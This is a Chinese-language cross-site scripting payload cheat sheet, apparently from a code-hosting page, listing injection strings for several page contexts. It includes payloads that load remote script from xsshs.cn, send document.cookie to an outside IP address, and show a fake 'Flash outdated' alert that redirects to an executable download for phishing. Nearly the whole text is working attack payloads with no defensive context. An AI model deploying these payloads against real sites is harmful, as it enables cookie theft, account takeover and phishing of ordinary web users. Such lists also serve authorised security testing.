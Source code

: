

**当不能弹窗的时候，可以用下面的payload来证明**

```
<script>console.log(3)</script>
<script>document.write(1)</script>
```



**引入外部js，可能需要短域名**

```
<script src=//xsshs.cn></script>
<img src onerror=appendChild(createElement("script")).src="//xsshs.cn/aaaa">
<img src onerror=jQuery.getScript("//xsshs.cn/aaaa")>
```



**盗取cookie**

```
<script>window.location.href="http://2.2.2.2/?msg="+escape(document.cookie)</script><script>document.body.appendChild(document.createElement("img")).src="http://2.2.2.2/?msg="+escape(document.cookie)</script>
```



**结合弹窗和url跳转进行钓鱼**

```
<script>alert("您的flash版本过低，请更新您的flash版本"); window.location.href ="https://www.flash.cn/cdm/latest/flashplayer_install_cn.exe"</script>
```



**当xss的触发位置在标签外**

```
name=<script>alert(1)</script>
```



**标签内**

```
name="><script>alert(1)</script>
name=1" id=javascript:alert(1) autofocus onfocus=location=this.id xx="
```



**在href=中**

```
name=javascript:alert(1)
```



**在js中**

```
name=</script><script>alert(1)</script>
name=';alert(1)//
name='-alert(1)-'
name=';};alert(1);function a(){a='
```
